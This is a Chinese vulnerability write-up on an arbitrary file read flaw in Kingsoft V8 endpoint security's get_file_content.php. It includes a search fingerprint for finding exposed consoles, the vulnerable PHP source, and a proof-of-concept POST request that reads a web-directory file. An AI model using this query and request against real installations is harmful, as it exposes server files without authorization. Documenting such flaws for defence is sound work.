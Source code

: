 # 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="在线安装-V8+终端安全系统Web控制台"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1630284811305-903a9d36-0fe4-46b2-bc56-92f81c4c433c.png)

存在漏洞的文件`/Console/receive_file/get_file_content.php`

```php {2-5}
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```

文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

<a-checkbox checked>由于不能出现 .. ，所以只能读取web目录下的文件</a-checkbox></br>

```plain
POST /receive_file/get_file_content.php

filepath=login.php
```

![img](/assets/PeiQi-Wiki/img/1630292700432-afde937f-bbe7-4493-a1e5-0cbb50dae5e7.png)



## 